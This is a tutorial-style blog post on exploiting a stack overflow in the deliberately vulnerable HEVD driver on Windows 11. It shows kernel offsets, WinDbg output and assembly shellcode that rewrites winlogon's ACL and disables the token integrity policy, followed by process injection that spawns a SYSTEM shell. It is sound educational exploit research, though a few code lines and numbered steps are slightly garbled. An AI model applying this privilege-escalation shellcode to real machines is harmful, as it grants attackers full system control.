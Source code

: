 ```yaml
---
layout: default
title: "kernel_shellcode_acl_edit"
date: 2024-11-14 21:00:00 -0000
categories: posts
---
```


# Revisiting Windows Kernel Shellcode on Windows 11: Stack Buffer Overflow with ACL Edit

## Introduction

This post revisits the classic stack buffer overflow technique demonstrated in [Improsec's blog post](https://blog.improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-2) using HackSys Extreme Vulnerable Driver (HEVD), but updated for Windows 11. It makes use of the stack buffer overflow to modify the ACL of the winlogon process, and then spawns an elevated command prompt by injecting shellcode into the winlogon process.

## Background

The original technique involves changing the ACE of the SYSTEM entry, for the winlogon process, so that its SID matches that of the Authenticated Users group. In addition, the current process token mandatory integrity policy is changed to `TOKEN_MANDATORY_POLICY_OFF`. This is to allow the current process to get a handle to the winlogon process and create a remote thread to spawn an elevated command prompt.

The mandatory policies can be found at https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-token_mandatory_policy.

In what follows, this post will demonstrate the technique on Windows 11, version 23H2, along with full exploit code, from triggering the overflow to spawning the elevated command prompt. SMEP/KPTI are disabled.

```bash
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22631 N/A Build 22631
OS Manufacturer:           Microsoft Corporation
```

## Technical Implementation 

The exploit follows these steps:

1. Obtain handle to the vulnerable driver
2. Trigger buffer overflow to execute kernel shellcode
2. Craft shellcode that:
   - Locates winlogon process in kernel memory
   - Modifies ACL entries to grant access to the Authenticated Users group
4. Inject shellcode into winlogon process to spawn elevated command prompt

The initial HEVD exploitation is well documented and triggering the buffer overflow can be found in many other posts.

The original blog post analysis still holds on Windows 11.

The security descriptor of the winlogon process can still be found at the same offsets,

```bash
0: kd> !process 0 0 winlogon.exe
PROCESS ffffe481acef1080
    SessionId: 1  Cid: 02d8    Peb: 7bab37d000  ParentCid: 026c
    DirBase: 10da60000  ObjectTable: ffff8081a273d080  HandleCount: 280.
    Image: winlogon.exe
```

And getting the security descriptor offset from the object header at EPROCESS-0x30,

```bash
0: kd> dt nt!_OBJECT_HEADER ffffe481acef1080-30 SecurityDescriptor
   +0x028 SecurityDescriptor : 0xffff8081`9fc5adaf Void
```

The security descriptor is found at EPROCESS-0x30+0x28 but its lower 4 bits are a fast reference, so they must be masked off,

```bash
0: kd> !sd 0xffff8081`9fc5ada0
->Revision: 0x1
->Sbz1    : 0x0
->Control : 0x8814
            SE_DACL_PRESENT
            SE_SACL_PRESENT
            SE_SACL_AUTO_INHERITED
            SE_SELF_RELATIVE
->Owner   : S-1-5-32-544
->Group   : S-1-5-18
->Dacl    : 
->Dacl    : ->AclRevision: 0x2
->Dacl    : ->Sbz1       : 0x0
->Dacl    : ->AclSize    : 0x3c
->Dacl    : ->AceCount   : 0x2
->Dacl    : ->Sbz2       : 0x0
->Dacl    : ->Ace[0]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl    : ->Ace[0]: ->AceFlags: 0x0
->Dacl    : ->Ace[0]: ->AceSize: 0x14
->Dacl    : ->Ace[0]: ->Mask : 0x001fffff
->Dacl    : ->Ace[0]: ->SID: S-1-5-18

->Dacl    : ->Ace[1]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl    : ->Ace[1]: ->AceFlags: 0x0
->Dacl    : ->Ace[1]: ->AceSize: 0x18
->Dacl    : ->Ace[1]: ->Mask : 0x00121411
->Dacl    : ->Ace[1]: ->SID: S-1-5-32-544

->Sacl    : 
->Sacl    : ->AclRevision: 0x2
->Sacl    : ->Sbz1       : 0x0
->Sacl    : ->AclSize    : 0x1c
->Sacl    : ->AceCount   : 0x1
->Sacl    : ->Sbz2       : 0x0
->Sacl    : ->Ace[0]: ->AceType: SYSTEM_MANDATORY_LABEL_ACE_TYPE
->Sacl    : ->Ace[0]: ->AceFlags: 0x0
->Sacl    : ->Ace[0]: ->AceSize: 0x14
->Sacl    : ->Ace[0]: ->Mask : 0x00000003
->Sacl    : ->Ace[0]: ->SID: S-1-16-16384
```

The ACEs are found at the same offsets as well. The remaining analysis of the mandatory integrity policy is the same as the original blog post.

## Code Walkthrough

The full exploit code can be found in [src/main.rs](https://github.com/glslang/hevd-exp/blob/main/stack_buffer_overflow_acl_edit/src/main.rs).

The ACL edit shellcode can be found in [acl_edit.asm](https://github.com/glslang/win-kexp/blob/main/src/asm/acl_edit.asm).

The updated offsets used in the shellcode are,

```bash
KTHREAD_OFFSET        EQU 188h    ; Offset to current KTHREAD from GS
EPROCESS_OFFSET       EQU 0B8h    ; Offset to EPROCESS from KTHREAD
ACTIVEPROCESSLINKS    EQU 448h    ; Offset to ActiveProcessLinks
IMAGEFILENAME_OFFSET  EQU 5A8h    ; Offset to ImageFileName
TOKEN_OFFSET          EQU 4b8h    ; Offset to process token
```

Then it proceeds to find the winlogon process,

```
    mov rax,gs:[rax+KTHREAD_OFFSET]    ; Get current KTHREAD
    mov rax,[rax+EPROCESS_OFFSET]      ; Get current EPROCESS
    mov rcx,rax
__loop:
    mov rax,[rax+ACTIVEPROCESSLINKS]                        ; Get next process
    sub rax,ACTIVEPROCESSLINKS                              ; Adjust to get EPROCESS base
    cmp dword ptr [rax+IMAGEFILENAME_OFFSET],6c6e6977h      ; Compare ImageFileName
    jnz __loopbash
```

RAX now points to the winlogon process EPROCESS, and RCX contains the current EPROCESS.

```bash
    sub rax,30h
    add rax,28h
```

The offset to the object header is found by subtracting 0x30 and then the security descriptor is found by adding 0x28 from the EPROCESS base. The two instructions are for clarity of the explanation.

The next step is to modify the ACL entries,

``` bash
    mov rax, qword ptr [rax]
    and rax,0FFFFFFFFFFFFFFF0h
    add rax,48h
    mov byte ptr [rax],0bh
```

RAX is dereferenced and the security descriptor is masked off. Adding 0x48 to the address gets to the first ACE and the byte at that location is modified to 11 (0x0B), which is the 18 (0x12) for the SYSTEM ACE.

The remaining shellcode is for setting the mandatory integrity policy,

``` bash
    mov rdx, qword ptr [rcx+TOKEN_OFFSET]
    and rdx,0FFFFFFFFFFFFFFF0h
    add rdx,0d4h
    mov byte ptr [rdx],0
```

RDX is set to the token address and masked off. Adding 0xd4 to the address gets to the mandatory integrity policy and the byte at that location is modified to 0, which is the `TOKEN_MANDATORY_POLICY_OFF` value.

The shellcode also contains an epilogue to restore the original stack and registers to safely return to the caller.

The remaining exploit code is for injecting the shellcode into the winlogon process and spawning the elevated command prompt. The injection is a standard injection. The handle to the victim process is returned, memory for the shellcode is allocated and written to the user space of the victim process, and then a remote thread is created to execute the shellcode.

These steps can be found at https://github.com/glslang/win-kexp/blob/main/src/process.rs#L112.

Executing the exploit code and our elevated command prompt can be found below,

![Launching the elevated command prompt](/assets/images/acl_edit_system.png)

## Conclusion

This post revisits the ACL edit technique on Windows 11 and demonstrates the technique with full exploit code, with the expectation that the source code can be used to understand the technique and to better follow along with the original blog post.

## References

- https://blog.improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-2
- https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
- https://github.com/glslang/win-kexp
